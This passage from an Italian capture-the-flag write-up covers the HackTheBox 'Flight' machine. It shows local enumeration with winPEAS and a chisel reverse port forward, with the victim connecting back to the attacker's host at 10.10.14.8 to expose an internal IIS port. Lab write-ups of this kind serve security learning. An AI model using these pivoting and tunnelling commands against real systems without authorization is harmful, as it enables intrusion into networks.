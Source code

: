 Provo a trasferire sulla macchina l'eseguibile _winPEAS.exe_ e lo eseguo.

Così facendo scopro che:
  - L'utente _c.bum_ fa parte di un gruppo WebDevs.
  - C'è un server IIS nella directory "C:\inetpub".
  - La porta 8000 è in ascolto.

Quindi procedo utilizzando la tecnica del _Port Forwarding_ tramite il tool [chisel](https://github.com/jpillora/chisel). Per prima cosa carico il file [chisel_1.9.1_windows_amd64](https://github.com/jpillora/chisel/releases) all'interno della cartella "flight.htb". Poi avvio un server sulla mia macchina:

```bash
chisel server --reverse -p 8001
```

E successivamente, avvio il client sulla macchina vittima:

```bash
.\chisel_1.9.1_windows_amd64 client 10.10.14.8:8001 R:8000:127.0.0.1:8000
```

<p align="center">
  <img src="/Immagini/Windows-Box/Flight/flight-20.png"/>
</p>

Sulla mia macchina, visito la pagina http://127.0.0.1:8000:

<p align="center">
  <img src="/Immagini/Windows-Box/Flight/flight-19.png"/>
</p>
